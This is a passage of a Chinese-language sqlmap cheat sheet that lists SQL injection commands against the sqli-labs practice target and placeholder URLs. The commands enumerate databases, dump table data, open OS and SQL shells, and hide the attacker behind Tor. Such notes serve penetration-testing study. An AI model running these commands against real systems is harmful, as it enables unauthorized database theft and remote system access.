 ```
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://127.0.0.1/sqli-labs/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）
  
sqlmap -d "mysql://root:root@127.0.0.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

```

```
# 枚举数据库
sqlmap --dbms=mysql -u "$URL" --dbs

# 枚举数据表
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

# 转储表数据
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump

# 指定要利用的参数
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

# 指定要在“nice”URI中利用的参数
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # 利用参数1

# 获取系统shell
sqlmap --dbms=mysql -u "$URL" --os-shell

# 获取SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell

# SQL查询
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

# 使用Tor Socks5代理
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs


```
​    

**参考资料**

> http://t.csdnimg.cn/lnVVf

> http://t.csdnimg.cn/964ir



#### 参考资料

https://blog.csdn.net/qq_45747465/article/details/132283743

https://blog.csdn.net/peanut5036/article/details/128553795

https://www.php.cn/faq/544967.html

https://www.pianshen.com/article/3596668244/


